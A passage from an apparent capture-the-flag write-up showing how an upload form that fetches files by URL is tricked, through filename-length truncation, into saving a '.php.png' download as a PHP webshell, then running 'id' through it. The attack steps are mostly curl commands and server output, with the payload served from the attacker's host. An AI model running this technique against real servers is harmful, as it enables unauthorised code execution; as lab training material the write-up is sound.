 At 237 characters, the full file is still requested at http server:

```
10.10.10.73 - - [15/May/2018 12:22:50] code 404, message File not found
10.10.10.73 - - [15/May/2018 12:22:50] "GET /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest.png HTTP/1.1" 404 -

```

Looking in more detail at the output from 237 character file name:

```

root@kali# URL=$(python -c 'print "http://10.10.15.99:8081/" + "A"*229 + "test.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep -e "The name is too long" -e shorten -e "New name"
        <pre>The name is too long, 237 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest.pn.

```

The new name is no longer a png file.

So upload a php webshell that ends in `.php.png` that is just long enough that the last four characters get truncated:

```

root@kali# URL=$(python -c 'print "http://10.10.15.99:8081/" + "A"*232 + ".php.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep -e "The name is too long" -e shorten -e "New name" -e CMD
        <pre>CMD: cd /var/www/html/uploads/0515-1930_45ed3e0a6a8c22db; wget 'http://10.10.15.99:8081/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'</pre>
        <pre>The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.

```

Test the shell:

```

root@kali# curl http://10.10.10.73/uploads/0515-1930_45ed3e0a6a8c22db/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
